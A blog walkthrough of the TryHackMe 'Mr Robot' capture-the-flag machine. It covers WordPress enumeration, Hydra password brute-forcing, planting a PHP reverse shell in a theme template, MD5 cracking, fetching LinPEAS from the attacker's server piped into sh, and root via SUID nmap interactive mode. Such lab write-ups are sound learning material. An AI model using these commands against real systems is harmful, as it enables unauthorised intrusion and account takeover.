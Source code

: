 ```yaml
---
title: "TryHackMe Mr Robot CTF"
date: 2020-09-11T14:45:30+02:00
categories:
  - blog
tags:
  - CTF
  - infosec
  - TryHackMe
---
```


The machine that will serve as an initial blog post will be Mr Robot from dear people from TryHackMe. 

## Enumeration
The first thing that I will do is :drumroll:, nmap
```bash
nmap -sS -A -Pn -sC -oA mrrobot-default-fingerprint-def-scripts <ip_address>
```

The output suggests that we have Apache web server station there.
```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
```

Ok. Now we're firing up dirstalk to bruteforce files and folders, since it's so damn slow, I usually bruteforce only 1 level deep links.<br />
```bash
dirstalk scan http://<ip_address> --scan-depth 0 --dictionary <abs_path>/common.txt
--out ./dirstalk_depth_1.txt
```

After some fancy **jq** command line processing:
```bash
jq 'select( .StatusCode == 200) | .URL.Scheme + "://" + .URL.Host + .URL.Path' 
dirstalk_depth_1.txt
```
we get some links:
```
"http://10.10.187.65/favicon.ico"
"http://10.10.187.65/index.html"
"http://10.10.187.65/intro"
"http://10.10.187.65/license"
"http://10.10.187.65/readme"
"http://10.10.187.65/robots"
"http://10.10.187.65/robots.txt"
"http://10.10.187.65/sitemap"
"http://10.10.187.65/sitemap.xml"
"http://10.10.187.65/wp-config"
"http://10.10.187.65/wp-cron"
"http://10.10.187.65/wp-links-opml"
"http://10.10.187.65/wp-load"
"http://10.10.187.65/wp-login"
```
It's obviously a Wordpress site.

## Doing stuff
We also go thorough all the directories and an interesting _robots.txt_ pops-up.
![robots.txt](/assets/images/robotstxt.png)

Link _key-1-of-3.txt_ has a first key. EZ.
Link fsocity.dic has a dictionary of words. We download it for a later use.
After that we go to the login form on `http://10.10.187.65/wp-login` and we see that it has no brute-force protection.<br />
![wp-login](/assets/images/wplogin.png)

We then strolled through the wordlist _fsocity.dic_ and compile a list of potential usernames like:
* Robot
* Elliot
* mrrobot
* Alderson
* admin
* LeverageGuru

We then try those usernames and we get different error message for user Elliot:
![wp-login](/assets/images/elliot_username.png)

Ok, we can brute force that with Hydra.

## Bruteforce

So, we will try to catch request and response in order to be able to pass that info to Hydra. In order for this to work, we need to find the way the app presents an error message so we can pass that info to Hydra.
Lets catch request that solicits failed response with Hydra.
![burp_request](/assets/images/burp_request.png)
![burp_response](/assets/images/burp_response.png)

We also need to make sure that our dictionary is processed prior to bruteforce so, shell trimming time.
```bash
sort fsocity.dic | uniq > fsocity.dic.uniq
```
We got only 11451 instead of 858160 words which is way more reasonable.

And the command to start bruteforcing will be:
```shell
hydra -l Elliot -P fsocity.dic.uniq <ip_address> http-post-form 
"/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 20
```

We found the password, I'll skip it here so I don't spoil all the fun.

## Wordpress admin console
After that we get WP console, and yes, it's an admin one.
Now we just need to upload our PHP reverse shell to the WP admin in order to get a shell. There are two ways:
1. Use Metasploit's exploit/unix/webapp/wp_admin_shell_upload
2. Inject code into WP theme

We'll do the second one.
We'll go to Appearance, then choose theme (twentyfifteen) and edit the template which will be php reverse shell from our friends from PentestMonkey. DuckDuckGo it, for multiple reasons but mainly because Google is trying to hide "malicious" code from PM.
We just change the IP address and the port and then upload the shell as a new template.
![twentyfifteen](/assets/images/twentyfifteen.png)

We then visit `http://10.10.132.29/wordpress/wp-content/themes/twentyfifteen/404.php` and, voila, we got the shell.

After we obtain a shell, we'll make it more stable by adding tty using ptyhon:
```bash
python -c "import pty;pty.spawn('/bin/sh');"
```
So, we're user deamon and there is a 2nd key in /home/robot that i cannot read. However, _password.raw-md5_ is readable.
![daemon-shell](/assets/images/daemon_shell.png)
![key-2-of-3](/assets/images/key-2-of-3.png)

### Cracking
We crack that MD5 password with:
```bash
./john --format=Raw-MD5 hash.txt --wordlist=fsocity.dic --rules
```
We get password for user _robot_.
Allright.
Now we can read the second key. One more left.

## Privilege escalation
First thing we do is use the great PEASS suite for Linux privilege escalation.
We raise HTTP server on our machine and fetch and run script on machine.
```bash
python -m http.server 80
```
```bash
curl 10.9.147.250/linpeas.sh | sh
```

There's a lot of lines here, but the ones we're interested in are the following:
```bash
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
/bin/ping
/bin/umount  --->  BSD/Linux(08-1996)
/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
/bin/ping6
/bin/su
/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
/usr/bin/newgrp  --->  HP-UX_10.20
/usr/bin/chsh
/usr/bin/chfn  --->  SuSE_9.3/10
/usr/bin/gpasswd
/usr/bin/sudo  --->  /sudo$
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)
```

If you go to GTFObins and look for bins listed here, you'll find that **nmap** can spawn system shell. Since it's SUID root, we can obtain root shell that way.
Let's see what version **nmap** is:
```bash
robot@linux:~$ nmap --version
nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

Nice. We can do `nmap --interactive`.

```bash
nmap --interactive
> !sh
```
Win. We do `find / key-3-of-3.txt` and it's in /root folder. 







